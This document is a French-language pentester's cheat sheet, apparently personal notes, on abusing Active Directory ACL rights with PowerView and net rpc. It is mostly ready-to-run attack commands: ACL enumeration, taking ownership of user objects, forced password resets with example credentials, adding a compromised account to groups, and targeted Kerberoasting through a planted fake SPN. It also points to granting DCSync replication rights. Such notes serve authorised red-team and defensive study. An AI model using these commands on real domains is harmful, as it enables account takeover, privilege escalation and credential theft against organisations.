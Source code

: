 ```yaml
---
public: true
---
```


## Enumération des ACLs

```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

On s'appuiera souvent sur des informations d'identification différentes d'un compte préalablement compris.

Dans ce cas, on utilisera le parametre `-Credential $creds` avec un objet PSCredential créé de la façon suivante :

```powershell
$pass = "somePass"
$user = "DOMAIN\someuser"
$creds = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $pass -AsPlainText -Force))
```

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)

Windows

```powershell
# Utilisation de credentials alternatifs
$PrivilegedUserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$PrivilegedCreds = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $PrivilegedUserPassword)
# Nouveau mot de passe a appliquer
$newPassword = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
# Modification du mot de passe
Set-DomainUserPassword -Identity Target_AD_User -Password $newPassword -Credential $PrivilegedCreds
```

Linux

```shell
# autres méthodes disponibles (voir l'aide de bloodhound)
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

### GenericWrite

Permet :

- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit
- la modification du script de login pour tenter une exécution de code à distance (au prochain logon)

```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members 'compromised'
# Verification
Get-DomainGroupMember -Identity "Target Group With GenericWrite right" | ?{$_.MemberName -eq 'compromised'}
```

### GenericAll
#### Sur un compte utilisateur
- Permet de récupérer le hash du mot de passe d'un utilisateur sur lequel on dispose de ce privilège.
- L'attaque se nomme "Targetted Kerberoasting".
- Elle conciste en la création d'un SPN sur le compte cible afin de récupérer un TGS à cracker hors ligne.
- Si le mot de passe est facile à deviner, on pourra le casser comme dans une attaque de Kerberoasting classique ([[Cassage de mots de passes Kerberos]])

```powershell
# Création d'un faux SPN pour pouvoir récupérer un TGS
Set-DomainObject -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# Récupération du TGS
Get-DomainUser $targetedUser | Get-DomainSPNTicket | fl
# Cleanup
Set-DomainObject -Identity $targetedUser -Clear serviceprincipalname
```

#### Sur un groupe
- elle permet de s'ajouter comme membre du groupe

#### Sur une OU
- elle permet d'ajouter un controle total sur l'OU et disposer d'un controle totale sur les objets qui sont dedans

### WriteDacl

Permet d'ajouter des DACL sur un compte utilisateur.

Cela peut permettre d'ajouter les permissions `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All` et `DS-Replication-Get-Changes-In-Filtered-Set` qui permettent de réaliser une attaque ([[DCSync]])
